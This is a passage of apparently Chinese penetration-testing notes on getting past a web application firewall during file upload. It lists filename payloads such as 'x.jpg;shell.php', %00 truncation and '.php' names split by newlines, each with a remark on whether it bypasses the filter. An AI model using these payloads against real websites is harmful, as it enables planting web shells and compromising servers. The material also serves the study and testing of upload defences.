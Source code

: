 ![img](https://gitee.com/YatJay/image/raw/master/img/202203021100147.png)

- filename去掉最后一个双引号，在文件名后缀前任意位置加空格(可绕过WAF，可上传，可行)

![img](https://gitee.com/YatJay/image/raw/master/img/202203021100944.png)

- 单引号与双引号一致
- 只在末尾加双引号(被拦截)

![img](https://gitee.com/YatJay/image/raw/master/img/202203021100574.png)

- 文件名前加双引号或单引号(无法解析)

文件名前加双引号或单引号可绕过waf，也可上传，但是无法解析。

![img](https://gitee.com/YatJay/image/raw/master/img/202203021101652.png)

- 文件名中加入图片后缀提前用分号截断

#### 3. 数据截断

可用payload

```plain
filename="x.jpg;shell.php"
filename="x.jpg;shell.php
filename='x.jpg;shell.php
filename="shell.php%00xx.jpg" 注意%00要编码
```

- 文件名中加入图片后缀提前用分号截断(可行)

原因是防护软件只检测前面的部分，一旦正确就放行，不再检测后面的

前三个payload均可绕过

![img](https://gitee.com/YatJay/image/raw/master/img/202203021101021.png)

- 文件名中用%00url编码截断(可行)

![img](https://gitee.com/YatJay/image/raw/master/img/202203021101613.png)

#### 4. 数据换行截断

​     可用payload

```plain
x.ph
p

x.p
h
p

x.
p
h
p

x
.
p
h
p
```

